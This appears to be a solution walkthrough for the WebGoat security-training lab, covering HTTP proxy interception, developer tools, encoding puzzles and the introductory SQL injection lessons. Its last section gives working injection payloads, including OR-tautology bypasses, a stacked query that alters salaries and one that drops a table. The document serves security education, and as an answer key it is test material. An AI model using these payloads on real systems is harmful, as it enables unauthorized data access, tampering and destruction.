




I would like to metion that I will be using **Burpsuite** instead of **OWASP ZAProxy**
for the majority of the tasks. Please feel free to follow the tutorials provided by
WebGoat if you are not comfortable with this tool.

# Registered User:

```
leastsignificantbit:password
```

# Introduction

## WebGoat

### Task 1

No answer needed.

## WebWolf

### Task 1

No answer needed.

### Task 2

No answer needed.

### Task 3

Type in your e-mail address below and check your inbox in WebWolf. Then type in the unique code from the e-mail in the field below.

How to access the Mailbox:

1. Go to `http://localhost/WebWolf/login`.
2. Log in with your WebGoat credentials.
3. Navigate to "MailBox" in the top toolbar.

Go back to Web**Goat** and enter an email with the following pattern:

```
Pattern: <username>@<doesn't matter>
Example: leastsignificantbit@canliterallybeanything.lmao
```

Go back to the mailbox and copy the code from the received email.
The code for the above email is:

```
tibtnacifingistsael
```

### Task 4

This task seems to be optional.
The answer is the same code from *Task 3*.

Just click on the link and enter any password.
Alternatively, visit the following URL manually:

```
http://localhost:8080/WebGoat/WebWolf/landing/password-reset
```

# General

## HTTP Basics

### Task 1

No answer needed.

### Task 2

It does not matter what is input here.
Type anything and press the button.

### Task 4

What type of HTTP command did WebGoat use for this lesson. A POST or a GET.

```
Was the HTTP command a POST or a GET: POST
What is the magic number            : 97
```

## HTTP Proxies

### Task 1

No answer needed.

### Task 2

No answer needed.

### Task 3

No answer needed.

### Task 4

No answer needed.

### Task 5

No answer needed.

### Task 6

Unmodified request:

```text
POST /WebGoat/HttpProxies/intercept-request HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */ *
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 15
Origin: http://localhost:8080
Connection: close
Referer: http://localhost:8080/WebGoat/start.mvc
Cookie: JSESSIONID=e3dHiM5wF8CB2DJW6Sb_K1NAYbCAcl3W8PONY_oD; WEBWOLFSESSION=YR6BTRUQH_89HzCbp9q68HiWVQGdYCgWyDWVW7UL
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

changeMe=haxx0r
```

An explanation of the individual headers:

- `Host` -> This is the websites host. In this case `localhost` as the application is hosted locally.
- `User-Agent` -> Contains some basic information about the program that is being used to interact with the website. This may help with displaying the website correctly.
- `Accept` -> This is the media type that the browser will accept in the response.
- `Accept-Language` -> This is the language/s that the browser will accept in the response.
- `Accept-Encoding` -> These are the different types of encoding that the browser will accept in the response.
- `Content-Type` -> Describes what format is used to send data to the server. Only used in POST/PUT requests.
- `Origin` -> Enables Cross-Origin Resource Sharing, allowing a client to access otherwise restricted resources from a different domain then the resource is hosted on.
- `Connection` -> Decides whether the connection with the web server should be held open or be closed.
- `Referer` -> The URL at which the client was located when sending the request.
- `Cookie` -> Contains one or more cookie/s previously set by a `Set-Cookie` header by the server. Cookies have multiple purposes from serving as credentials to preventing basic brute force attacks and more.
- `Sec-Fetch-Dest` -> Can be used to let the server know what the response will be used for. This can help with formatting the reponse for the expected use case on the server.
- `Sec-Fetch-Mode` -> This header is used to distinguish between different uses for the response, for example whether it is for a user navigating a website or to load an image and so on.
- `Sec-Fetch-Site` -> Through this header, a client can tell the server whether a request is coming from the site itself, from a different site or from a completely user-generated request.

WebGoat is using **Javascript** and **Java 17/Maven**.

Exposed Javascript frameworks:

- Backbone.js 1.4.0
- RequireJS 2.3.6

Exposed Javascript Libraries:

- jQuery 3.5.1
- jQuery UI 1.10.4
- Underscore.js version unknown

The name if the input field used to for the task is `changeMe`.

Modified request:

```text
GET /WebGoat/HttpProxies/intercept-request?changeMe=Requests%20are%20tampered%20easily HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */ *
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 15
Origin: http://localhost:8080
Connection: close
Referer: http://localhost:8080/WebGoat/start.mvc
Cookie: JSESSIONID=e3dHiM5wF8CB2DJW6Sb_K1NAYbCAcl3W8PONY_oD; WEBWOLFSESSION=YR6BTRUQH_89HzCbp9q68HiWVQGdYCgWyDWVW7UL
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
x-request-intercepted:true
```

### Task 7

No answer needed for the task.

When intercepting the request that was earlier used to send a mail to WebWolf and
changing the target address to `idont@exist.welp`, the reponse looks like this:

```text
HTTP/1.1 200 OK
Connection: close
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
Content-Type: application/json
Date: Mon, 09 Oct 2023 18:50:57 GMT

{
  "lessonCompleted" : false,
  "feedback" : "Of course you can send mail to user idont however you will not be able to read this e-mail in WebWolf, please use your own username.",
  "output" : null,
  "assignment" : "MailAssignment",
  "attemptWasMade" : false
}
```



### Task 8

No answer needed.

### Task 9

No answer needed.

### Task 10

No answer needed.

## Developer Tools

### Task 1

No answer needed.

### Task 2

No answer needed.


### Task 3

No answer needed.

### Task 4

Use the console in the dev tools and call the javascript function webgoat.customjs.phoneHome().

The answer for this question is randomly generated each time the function is called.
Simply open your browsers developer console and run it to receive the result.



### Task 5

No answer needed.

### Task 6

In this assignment you need to find a specific HTTP request and read a randomized number from it.

Open the "Network" tab in your browsers developer tools and take a look at the request
body of the request. Note, that this answer is also randomly generated each time the request is send.



## CIA Triad

### Task 1

No answer needed.

### Task 2

No answer needed.

### Task 3

No answer needed.

### Task 4

No answer needed.

### Task 5

1. *How could an intruder harm the security goal of confidentiality?*

Solution 3: By stealing a database where names and emails are stored and uploading it to a website.

2. *How could an intruder harm the security goal of integrity?*

Solution 1: By changing the names and emails of one or more users stored in a database.

3. *How could an intruder harm the security goal of availability?*

Solution 4: By launching a denial of service attack on the servers.

4. *What happens if at least one of the CIA security goals is harmed?*

Solution 2: The system's security is compromised even if only one goal is harmed.

## Crypto Basics

### Task 1

No answer needed.

### Task 2

If you have no Linux terminal available, you can decode the string here: [CyberChef - Github.io](https://gchq.github.io/CyberChef/)

Otherwise, you can use the following command:

```bash
echo "bGVhc3RzaWduaWZpY2FudGJpdDpwYXNzd29yZA==" | base64 -d
```

The answer will be the credentials of the logged in user.
For this example the string will decode to:

```text
leastsignificantbit:password
```

### Task 3

The following string needs to be decoded:

```text
{xor}Oz4rPj0+LDovPiwsKDAtOw==
```

Apart from the `{xor}`, this seems to be encoded with `base64`.
Using the command from *Task 2*, it decodes to:

```text
;>+>=>,:/>,,(0-;
```

The `{xor}` may be a hint to how this string is encoded.
It is possible to brute force XOR encoded strings using [CyberChef - Github.io](https://gchq.github.io/CyberChef/).

The string decodes to:

```text
databasepassword
```



# (A1) Injection

## SQL Injection (intro)

### Task 1

No answer needed.

### Task 2

Look at the example table. Try to retrieve the department of the employee Bob Franco. Note that you have been granted full administrator privileges in this assignment and can access all data without authentication.

```sql
SELECT department FROM employees WHERE userid = 96134
```

### Task 3

Try to change the department of Tobi Barnett to 'Sales'. Note that you have been granted full administrator privileges in this assignment and can access all data without authentication.

```sql
UPDATE employees SET department='Sales' WHERE userid = 89762
```

### Task 4

Try to modify the schema by adding the column "phone" (varchar(20)) to the table "employees".

```sql
ALTER TABLE employees ADD phone varchar(20)
```

### Task 5

Try to grant rights to the table `grant_rights` to user `unauthorized_user`.

```sql
GRANT SELECT ON grant_rights TO unauthorized_user
```

### Task 6

No answer needed.

### Task 7

No answer needed.

### Task 8

No answer needed.

### Task 9

Try using the form below to retrieve all the users from the users table. You should not need to know any specific user name to get the complete list.

```sql
SELECT * FROM user_data WHERE first_name = 'Smith' OR '1' = '1'
```

### Task 10

Using the two Input Fields below, try to retrieve all the data from the users table.

```sql
Login_Count: 0
User_Id    : 0 OR 1=1
```

### Task 11

Use the form below and try to retrieve all employee data from the employees table.

```sql
Employee Name     : Bit
Authentication TAN: 0' OR '1'='1
```

### Task 12

Change your own salary so you are earning the most.

```sql
Employee Name     : Smith
Authentication TAN: 3SL99A'; UPDATE employees SET salary='99999999' WHERE userid = '37648
```

### Task 13

Delete the `access_log` table.

```sql
"'; DROP TABLE access_log -- -
```
